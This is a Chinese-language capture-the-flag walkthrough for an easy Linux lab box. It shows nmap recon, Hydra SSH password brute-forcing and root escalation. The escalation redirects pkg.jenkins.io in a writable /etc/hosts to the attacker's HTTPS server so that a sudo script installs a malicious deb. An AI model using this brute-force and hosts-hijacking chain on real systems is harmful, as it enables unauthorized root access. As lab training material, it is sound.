

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Search  
❯ nmap 192.168.56.136 -sV -A  -p-

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 39:0d:70:e0:55:cb:20:de:ad:f7:10:d8:1f:76:4d:9d (ECDSA)
|_  256 df:e2:94:52:e9:3d:eb:69:2d:b4:a5:a9:2c:3e:63:46 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```


得到用户名是**support**

## Hydra

```
[root@kali] /home/kali  
❯ hydra -l support -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.136 -I -V
```


得到密码是**liverpool**


## Root

查看**sudo -l**

```
support@debian:~$ sudo -l
Matching Defaults entries for support on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User support may run the following commands on debian:
    (ALL) NOPASSWD: /usr/bin/check
```

并且这个文件不可读

```
support@debian:~$ file /usr/bin/check
/usr/bin/check: executable, regular file, no read permission
support@debian:~$ ls -al /usr/bin/check
-rwx--x--x 1 root root 548 Mar 27 17:17 /usr/bin/check
```

那就看看运行输出

```
support@debian:~$ sudo /usr/bin/check
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
curl is already the newest version (7.88.1-10+deb12u12).
0 upgraded, 0 newly installed, 0 to remove and 64 not upgraded.
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
apache2 is already the newest version (2.4.62-1~deb12u2).
0 upgraded, 0 newly installed, 0 to remove and 64 not upgraded.
Warning: apt-key is deprecated. Manage keyring files in trusted.gpg.d instead (see apt-key(8)).
gpg: no valid OpenPGP data found.
--2025-04-02 03:01:57-- https://pkg.jenkins.io/debian-stable/binary/jenkins_2.46.1_all.deb
Resolving pkg.jenkins.io (pkg.jenkins.io)... failed: Temporary failure in name resolution.
wget: unable to resolve host address ‘pkg.jenkins.io’
dpkg-deb: error: unexpected end of file in archive magic version number in /root/jenkins_2.46.1_all.deb
dpkg: error processing archive /root/jenkins_2.46.1_all.deb (--install):
 dpkg-deb --control subprocess returned error exit status 2
Errors were encountered while processing:
 /root/jenkins_2.46.1_all.deb
```

看起来他是要去**pkg.jenkins.io**这里下载一个**deb**包，然后安装。

注意到**/etc/hosts**是可以写入的


因此劫持域名

```
support@debian:~$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       debian

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

192.168.56.118  pkg.jenkins.io
```

在本地开启一个**https**的服务，先生成证书，随意输入即可

```
[root@kali] /home/kali/Search  
❯ openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
```

**python**脚本，注意端口要开在**443**

```
import http.server
import ssl

PORT = 443  # 监听端口
CERT_FILE = "server.pem"  # 证书文件

# 创建 HTTP 服务器
server_address = ("0.0.0.0", PORT)
handler = http.server.SimpleHTTPRequestHandler
httpd = http.server.HTTPServer(server_address, handler)

# 使用 SSLContext 代替 wrap_socket
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain(certfile=CERT_FILE)

# 绑定 SSL
httpd.socket = context.wrap_socket(httpd.socket, server_side=True)

print(f"Serving HTTPS on port {PORT}...")
httpd.serve_forever()
```

- [dpkg | GTFOBins](https://gtfobins.github.io/gtfobins/dpkg/#sudo)

根据要求生成恶意**deb**包之后，在**https**服务中注意目录结构


开启服务后，运行**check**



提权成功！可以看到**check**的内容就是远程下载**deb**，然后**dpkg -i** 安装。

## Summary

`User`：网站注释中泄露用户名，尝试ssh登录爆破

`Root`：**hosts**劫持，下载恶意**deb**包得到**root**权限。
